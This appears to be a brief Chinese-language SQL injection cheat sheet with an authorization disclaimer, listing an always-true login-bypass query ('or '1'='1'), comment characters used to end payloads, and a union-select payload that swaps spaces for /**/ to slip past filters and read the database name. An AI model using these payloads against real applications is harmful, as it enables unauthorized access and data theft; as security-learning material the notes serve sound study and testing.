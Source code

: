 ### 万能密码

```
select * from users where username='admin' or '1'='1' and password='$pwd'
select * from users where username='admin' or '1'='1
```

### 注释符

```
--+
# -> %23
--空格 --%20
/**/ --> ?id=-1'/**/union/**/select/**/1,2,database()--+   //过滤空格,用/**/代替空格
' -->payload结尾单引号闭合

```

本文章声明：分享内容仅用于网安爱好者之间的技术讨论，禁止用于违法途径，所有渗透都需获取授权！否则需自行承担，作者不承担相应的后果
